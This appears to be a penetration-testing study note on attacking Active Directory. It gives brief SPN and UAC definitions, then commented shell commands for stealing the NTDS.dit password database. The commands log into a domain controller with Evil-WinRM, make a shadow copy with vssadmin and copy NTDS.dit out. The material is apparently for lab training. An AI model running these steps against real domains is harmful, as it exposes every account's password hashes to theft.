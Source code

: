 A service principal name (SPN) is a unique identifier of a service instance. Kerberos authentication uses SPNs to associate a service instance with a service sign-in account. Doing so allows a client application to request service authentication for an account even if the client doesn't have the account name.


**UAC**

User Account Control (UAC) is a fundamental component of Microsoft's overall security vision. UAC helps mitigate the impact of malware.


## Attacking Active Directory

Once a Windows system is joined to a domain, it will no longer default to referencing [the SAM database](active-directory-from-windows-privilege-escalation.md#attacking-sam) to validate logon requests. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on. 

If needed, use tools like [username Anarchy](username-anarchy.md) to create list of usernames.


### 1. Dumping ntds.dit

#### Dumping ntds.dit locally

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot$/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model).

The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information. If this file can be captured, we could potentially compromise every account on the domain


```shell-session
# Connect to a DC with Evil-WinRM
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights. Check Local Group Membership:
*Evil-WinRM* PS C:\> net localgroup

# Check User Account Privileges including Domain. If the account has both Administrators and Domain Administrator rights, this means we can do just about anything we want, including making a copy of the NTDS.dit file.
net user <username>

# Use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. Create a Shadow Copy of C:
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

# Copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
